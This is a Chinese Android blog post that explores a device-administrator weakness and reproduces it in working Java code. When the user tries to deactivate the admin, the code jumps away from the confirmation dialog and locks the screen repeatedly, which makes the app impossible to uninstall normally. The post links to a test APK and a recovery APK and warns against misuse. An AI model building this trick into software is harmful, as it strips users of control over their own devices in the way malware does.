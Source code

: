 ```yaml
---
layout: post
title: "无法卸载的 App - 设备管理器漏洞"
tags: [Android]
---
```

前两天某朋友发现手机有个app无法卸载，后知其因设备管理器激活导致，遂去尝试取消，但却在取消那刻卡机。反复折腾之后，只能重刷。后来他发了一篇关于设备管理器bug的文章给我，便有了如下一番折腾。

##**尝鲜**

文章[《Android 学习 设备管理器勾选后不能再取消了》](http://androidmaster.iteye.com/blog/2035381)（作者：带个回家）大致意思是：
> 继承 DeviceAdminReceiver 重写 onDisableRequested(Context context, Intent intent) 即可达到目的。

<!-- more -->

```java
@Override
public CharSequence onDisableRequested(Context context, Intent intent) {
    // 这里处理 不可编辑设备。
    Intent intent2 = new Intent(context, NoticeSetting.class);
    intent2.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
    context.startActivity(intent2);
    context.stopService(intent);// 是否可以停止
    return ""; // "这是一个可选的消息，警告有关禁止用户的请求";
    }

```

在此之前，我并没有接触过设备管理器的功能，参考了 API Guides 的 [Device Administration](http://developer.android.com/guide/topics/admin/device-admin.html) ，以及 [DeviceAdminReceiver](http://developer.android.com/reference/android/app/admin/DeviceAdminReceiver.html) 的 API 后，试着写了一个跟上述文章一样的 app，**4.4 & 5.0均测试失败，可以正常取消激活**。

##**再战**

搜索，找到[《Android设备管理器漏洞》](http://blog.csdn.net/androidsecurity/article/details/9124747)（作者：Jack_Jia）另一篇讲解此问题的文章。文章提到：
> 如果想在设备管理器列表中”隐身“，只要不注册 `android.app.action.DEVICE_ADMIN_ENABLED` 广播就行。

也就是不给 `intent-filter` 标签设置该 action。

```xml
<receiver
    android:name=".MyDeviceReceiver"
    android:description="@string/receiver_description"
    android:label="@string/app_name"
    android:permission="android.permission.BIND_DEVICE_ADMIN">

    <meta-data
        android:name="android.app.device_admin"
        android:resource="@xml/device_manager_policies" />

    <intent-filter>
    
    </intent-filter>

</receiver>
```

**4.4 & 5.0测试失败，设备管理器无法激活（代码激活不会弹出，设备管理器又找不到）。**

##**三战**

继续搜索，发现百度安全实验室一篇文章[《Android设备管理器漏洞2》](http://safe.baidu.com/2014-10/deviceadminexploit2.html)。文章提到：

> 已激活设备管理器权限的手机木马利用该漏洞，可以在设置程序的设备管理器列表中隐藏，这样用户就无法通过正常途径取消该手机木马的设备管理器权限，从而达到无法卸载的目的。Android4.2版本以上系统已经修复该漏洞。
> 
>...
>
>通过调用stopAppSwitch()方法，系统保证在进入取消设备管理器界面后，**5秒内不会进行Activity的切换。**
>
>...
>
>onDisableRequested函数满足以下条件即可：
>
1、返回内容不能为空，这样才可以使设备管理器弹出取消激活设备管理器警示信息 Dialog。
>
2、通过Activity切换的方式使设备管理器弹出的警示信息Dialog消失。使用户无法操作Dialog。
如果做到以上两点，程序即可成功阻止用户取消激活设备管理器操作。


故，只要在 onDisableRequested 方法中，让用户在取消激活时5s内无法操作界面，然后采取 Activity 切换的方法即可绕开取消激活的步骤。这里为了测试直观并且试一试设备管理器的 api，采用了百度提供的连续锁屏法。测试环境为5.0。

```java
public CharSequence onDisableRequested(Context context, Intent intent) {                                            
                                                                                                                    
    //跳离当前询问是否取消激活的 dialog                                                                                          
    Intent outOfDialog = context.getPackageManager().getLaunchIntentForPackage("com.android.settings");             
    outOfDialog.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);                                                            
    context.startActivity(outOfDialog);                                                                             
                                                                                                                    
    //调用设备管理器本身的功能，每 100ms 锁屏一次，用户即便解锁也会立即被锁，直至 7s 后                                                                
    final DevicePolicyManager dpm = (DevicePolicyManager) context.getSystemService(Context.DEVICE_POLICY_SERVICE);  
    dpm.lockNow();                                                                                                  
    new Thread(new Runnable() {                                                                                     
        @Override                                                                                                   
        public void run() {                                                                                         
            int i = 0;                                                                                              
            while (i < 70) {                                                                                        
                dpm.lockNow();                                                                                      
                try {                                                                                               
                    Thread.sleep(100);                                                                              
                    i++;                                                                                            
                } catch (InterruptedException e) {                                                                  
                    e.printStackTrace();                                                                            
                }                                                                                                   
            }                                                                                                       
        }                                                                                                           
    }).start();                                                                                                     
                                                                                                                    
    return "";                                                                                                      
}                                                                                                                   
```

1. 安装后打开直接跳转激活界面：
![安装后打开直接跳转激活界面](http://2bab-images.lastmayday.com/blog/2015-02-09-app-cannot-be-uninstalled-1.jpeg?imageslim)


2. 一旦激活则无法正常卸载
![一旦激活则无法正常卸载](http://2bab-images.lastmayday.com/blog/2015-02-09-app-cannot-be-uninstalled-2.jpeg?imageslim)

3. 进入设备管理器界面
![进入设备管理器界面](http://2bab-images.lastmayday.com/blog/2015-02-09-app-cannot-be-uninstalled-3.jpeg?imageslim)

4. 尝试取消激活
![尝试取消激活](http://2bab-images.lastmayday.com/blog/2015-02-09-app-cannot-be-uninstalled-4.jpeg?imageslim)

5. 强制进入锁屏
![强制进入锁屏](http://2bab-images.lastmayday.com/blog/2015-02-09-app-cannot-be-uninstalled-5.jpeg?imageslim)

至此，用户用普通方法无法卸载该app。测试使用某数字软件可以卸载，具体步骤：在数字软件的软件卸载功能中卸载Trick，此时提示取消激活，跳转到设备管理器界面取消激活，引发锁屏，强制锁屏7s结束后，切回数字软件，你会发现出现了取消激活的dialog，点击取消成功。

而文章开头提到的流氓软件，实则是跳转到一个所有按钮无效的自定义全屏界面（不是我这样跳到设置界面），使用数字软件无法解决问题。

##**总结**

日后看到设备管理器激活申请定要小心三分，本文提及内容请勿不正当使用。

##**相关下载**

- [源码Gist](https://gist.github.com/2BAB/786513de79b7bfd82c3f)
- [测试APK](http://engineering-blog-2bab.qiniudn.com/DeviceAdmin-DeviceAdminTrick.apk)，安装后激活则无法卸载。
- [恢复APK](http://engineering-blog-2bab.qiniudn.com/DeviceAdmin-recovery.apk)，覆盖安装后可顺利取消激活。

*欢迎关注我的[公众号和微博](/about)。*